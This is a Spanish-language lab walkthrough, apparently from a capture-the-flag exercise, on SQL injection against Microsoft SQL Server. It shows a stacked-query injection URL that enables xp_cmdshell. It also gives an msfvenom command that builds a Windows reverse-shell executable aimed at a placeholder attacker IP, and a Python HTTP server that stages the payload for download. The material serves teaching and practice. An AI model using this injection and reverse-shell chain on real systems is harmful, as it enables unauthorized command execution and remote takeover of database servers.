 ### `xp_cmdshell`

Como se explicó previamente, es un comando que permite la ejecución de comandos del sistema operativo y programas desde dentro de SQL Server.  
Debido a que es muy peligroso, en entornos de producción esta funcionalidad esta desactivada por defecto, sin embargo en casos en los que se haya configurado de manera errónea y en aplicaciones legacy es común verla activada. Si bien es posible activar esta funcionalidad desde SQL Server mediante `EXECUTE`, es una tarea que requiere que el usuario de la bdd sea sysadmin o tenga permisos `ALTER SETTINGS`.

A continuación se verá un ejemplo de la activación de la funcionalidad mediante inyección SQL con stacked queries:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

La consulta completa sería la siguiente:

```sql
http://MACHINE_IP/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

Y esto nos permitiría hacer uso de `xp_cmdshell` y ejecutar comandos mediante `EXECUTE` o `EXEC`.

## Remote code execution

Para verificar si lo realizado previamente funcionó vamos a intentar ejecutar `certutil.exe`. Este comando se encuentra nativamente en Windows y permite hacer conexiones HTTP/s.  
En este caso podemos usarlo para hacer una consulta HTTP para descargar un archivo de un servidor web que tengamos controlado para confirmar su ejecución. Para lograr esto se va a hacer uso de **MSFvenom**, una herramienta generadora de payloads que forma parte del Metasploit Framework, y nos permite generar un ejecutable Windows que al correrlo creará una *reverse shell*.  
Una reverse shell se puede interpretar una conexión realizada entre la máquina del atacante y su victima, la cual le permite al atacante la interacción directa con la máquina de su víctima.

Usamos MSFvenom de la siguiente manera:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

El resultado es un ejecutable que generará una reverse TCP connection mediante el puerto 4444.

Ya con el payload procedemos a levantar un servidor HTTP sencillo con Python:

```shell
python3 -m http.server 8000
```

Esto pondrá a disposición todos los archivos del directorio actual, incluido el recién creado `reverse.exe`.
